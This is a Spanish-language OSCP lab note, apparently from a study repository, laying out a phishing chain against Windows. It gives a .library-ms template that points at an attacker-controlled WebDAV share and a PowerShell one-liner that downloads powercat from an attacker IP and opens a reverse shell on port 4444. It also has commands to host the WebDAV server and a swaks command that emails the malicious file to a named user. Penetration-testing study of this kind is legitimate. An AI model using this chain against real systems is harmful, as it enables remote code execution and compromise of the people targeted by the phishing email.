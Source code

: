 # Crear .library-ms para que junto con un WebDav Server me permita ejecutar código remoto

- Este tipo de ataques en OSCP se ven si ves un mail server como `hMailServer`
- Los archivos `.library-ms` son usados por Windows para mostrar "librerías" (documentos, música, etc.), y pueden apuntar a recursos remotos como WebDAV.

### Plantilla: config.Library-ms

```xml

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-100</iconReference>
  <templateInfo>
    <folderType>{7D49D726-3C21-4F05-99AA-FDC2C9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <description>Relia Files</description>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isDefaultNonOwnerSaveLocation>true</isDefaultNonOwnerSaveLocation>
      <simpleLocation>
        <url>http://192.168.XX.XX/</url> <!-- Tu IP aquí -->
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

## Crear acceso directo
- Tenemos que desde una maquina windows crear un acceso directo que descargue powercat o cualquier otro payload.
- `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.210:8000/powercat.ps1'); powercat -c 192.168.45.210 -p 4444 -e powershell"`
![alt text](image.png)
- Ahora este .lnk lo ponemos en el directorio en donde vamos a levantar nuestro webdav.


-----

### Levantar webdav en kali

- `pip3 install wsgidav --break-system-packages`
- `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/blabla/webdav`

-----

### Phishing email example con swaks

```bash

swaks -t jim@relia.com \
  --from maildmz@relia.com \
  --attach @config.Library-ms \
  --server 192.168.208.189 \
  --body @test.txt \
  --header "Subject: Staging Script" \
  --suppress-data

``` 